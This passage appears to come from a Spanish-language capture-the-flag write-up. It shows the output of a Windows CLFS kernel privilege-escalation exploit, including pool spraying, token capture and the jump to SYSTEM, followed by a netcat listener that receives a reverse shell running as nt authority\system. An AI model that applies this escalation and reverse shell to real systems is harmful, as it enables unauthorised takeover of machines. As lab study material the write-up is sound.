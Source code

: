 ```
Last kernel CLFS address = FFFFD38077AAF000
numero de tags CLFS founded 1

[+] Log file handle: 00000000000000EC
[+] Pool CLFS kernel address: FFFFD38077AAF000

number of pipes created =5000

number of pipes created =4000
TRIGGER START
System_token_value: 4141414141414141
TRYING AGAIN
TRIGGER START
System_token_value: 4141414141414141
TRYING AGAIN
TRIGGER START
System_token_value: FFFFD3806A44159B
SYSTEM TOKEN CAPTURED
Closing Handle
ACTUAL USER=SYSTEM
```

`Ganamos acceso` como `nt authority\system`

```
# rlwrap nc -nlvp 443  
listening on [any] 443 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.229.128] 57072
Microsoft Windows [Version 10.0.22000.1761]
(c) Microsoft Corporation. All rights reserved.

C:\Users\sam.emerson\Documents>whoami
whoami
nt authority\system
```
